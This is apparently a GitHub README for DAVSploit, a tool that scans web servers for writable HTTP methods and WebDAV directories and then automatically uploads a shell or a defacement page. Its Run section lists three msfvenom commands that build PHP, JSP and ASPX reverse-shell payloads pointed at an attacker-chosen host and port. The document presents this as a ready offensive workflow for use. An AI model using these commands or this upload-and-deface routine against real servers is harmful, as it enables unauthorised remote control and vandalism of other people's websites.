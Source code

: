 # DAVSploit
DAV Vulnerbility

[DAVSploitV1.1]

<center><img src="https://github.com/darkseid-security/DAVSploit/blob/main/IMG/davsploit.png"></center>


DAVSploit tool is for automating checking for PUT,MOVE,COPY and DELETE HTTP methods
aswell as automating webdav exploitation.

Features
================
- Automatically checks PUT,MOVE,COPY,DELETE,PATCH,CONNECT and TRACE for webserver
- Automatically checks for web dav directories if they exists and gets HTTP allow methods
- if PUT exits will try to automatically upload a shell
- Built in Server detection, payload that matches server version will be sent
- Three diffrent payload types PHP,JSP,ASPX and HTML
- Colored UI
- HTML payload includes deface web page


Davsploit V2
==============
- Add more payloads
- Add more webservers to detection list
- Fix false positive with PUT method
- Perform content discovery and create wordlist to scan more directories


Run
===============
Need payloads generated in directory to run script

Create a PHP reverse shell
- msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
Create a JSP reverse shell
- msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<Port> -f raw > shell.jsp
Create a ASPX reverse shell
- msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<Port> -f aspx > shell.aspx

python3 DAVSploit.py
